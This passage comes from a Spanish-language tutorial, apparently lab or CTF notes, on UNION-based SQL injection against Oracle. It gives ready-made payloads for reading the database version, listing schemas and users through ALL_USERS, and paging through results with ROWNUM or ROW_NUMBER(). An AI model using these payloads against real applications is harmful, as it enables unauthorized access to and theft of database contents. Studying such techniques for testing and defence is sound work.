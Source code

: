**Explicación:** `v$version` contiene líneas con la versión del motor Oracle; seleccionamos la primera fila con `ROWNUM = 1`. Dependiendo de permisos, `v$version` puede o no estar accesible.

![Captura](./Imágenes/web_14.png)

---

## Concepto importante: bases de datos vs. esquemas en Oracle

Oracle no gestiona múltiples _bases de datos_ como MySQL/Postgres en el mismo servidor; en Oracle cada instancia tiene _schemas_ (que coinciden con usuarios). Por eso, donde en Postgres listaríamos bases de datos, en Oracle listaremos usuarios/schemas.

### Listar schemas (usuarios)

```sql
' UNION SELECT 1, (SELECT username FROM all_users WHERE ROWNUM = 1) FROM DUAL--
```

![Captura](./Imágenes/web_16.png)

O para listar varios esquemas iterando/obteniendo uno por uno (ver apartado sobre paginación):

```sql
' UNION SELECT 1, username FROM all_users--
```

![Captura](./Imágenes/web_15.png)

**Explicación:** `ALL_USERS` contiene los usuarios/schemas de la instancia; si no tenemos privilegios para ver todo, `USER_USERS` o prefijos similares pueden variar. `ALL_USERS` suele ser útil para enumeración de schemas visibles.


---

## Paginación / LIMIT equivalente

Oracle histórico no soporta `LIMIT`. Opciones según versión:

- Oracle 12c+: podemos usar `OFFSET <n> ROWS FETCH NEXT <m> ROWS ONLY`.
    
- Versiones clásicas: usamos `ROWNUM` o `ROW_NUMBER()` sobre una subconsulta.
    

Usamos `ROW_NUMBER()` en una subconsulta ordenada:

**Payload (texto) — para obtener, por ejemplo, la fila con rn = 1:**

```bash
' UNION SELECT NULL, (SELECT username FROM (SELECT username, ROW_NUMBER() OVER (ORDER BY username) rn FROM all_users) WHERE rn = 1) FROM DUAL-- -
```

![Captura](./Imágenes/web_16.png)
